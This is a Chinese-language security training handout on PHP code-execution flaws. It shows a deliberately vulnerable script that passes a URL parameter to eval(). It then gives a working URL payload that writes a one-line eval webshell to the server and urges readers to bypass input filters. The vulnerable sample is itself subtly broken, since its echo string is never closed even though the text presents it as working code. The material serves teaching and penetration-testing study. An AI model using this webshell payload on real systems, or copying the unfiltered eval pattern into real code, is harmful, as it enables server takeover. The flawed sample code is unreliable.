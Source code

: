 # 米斯特白帽培训讲义 漏洞篇 代码执行

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)


## 原理

由于开发人员编写源码时，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句，并交由服务端执行。命令注入攻击中，Web 服务器没有过滤类似`system`、`eval`和`exec`等函数，是该漏洞攻击成功的主要原因。

## 实例代码

```php
<?php
// code-exe.php:
$code=@$_GET['code'];//http://localhost/subject/code-exe.php?code=
echo "<center>Payload:".$code."<br/>Result:</center>
eval($code);
```

整个代码就三行，第一行用于从 URL 参数中读取`code`参数的值。第二行用于输出该参数的值，用于检查该参数。第三行直接将该参数当做 PHP 代码执行。由于不存在任何过滤，就会产生代码执行漏洞。

我们在该文件的目录下执行`php -S 0.0.0.0:80`，之后访问`http://localhost/code-exe.php?code=phpinfo();`，我们可以看到该代码执行了`phpinfo`函数：

![](http://ww3.sinaimg.cn/large/841aea59jw1fatrv2af9aj213d0ncmzq.jpg)

## 利用

我们可以将 URL 中`code`参数值换成不同的 PHP 代码，使其执行不同的 PHP 代码。利用此漏洞的关键还是熟悉所有可用的 PHP 代码。

比如，可以使用`phpinfo`或者`echo`等调试函数来判定漏洞。最重要的是，可以利用这个漏洞写入 Webshell，代码如下：

```php
$file='mst.php'; // 一句话木马的文件名
$person='<?php @eval($_POST[1]);?>'; // 一句话文件名的代码
file_put_contents($file,$person, FILE_APPEND | LOCK_EX); // 当key.php文件不存在会自动创建，如果存在就会添加
```

我们需要把这三行代码写入 URL 中，得到的 URL 是这样：`http://localhost/code-exe.php?code=$file='mst.php';$person='<?php @eval($_POST[1]);?>';file_put_contents($file,$person, FILE_APPEND | LOCK_EX);`。

访问之后，当前目录就会多出一个`mst.php`，内容为`<?php @eval($_POST[1]);?>`，这个就是一句话木马。由于不是讲工具的章节，这里就不拿菜刀演示了。

在实际代码中，当然不可能这么短，就需要大家使用`eval`和`exec`作为关键词来搜索可能的漏洞点。另外，实际代码中还可能在执行之前对`$code`进行过滤，也需要大家发挥创造性，绕过过滤来成功利用它。
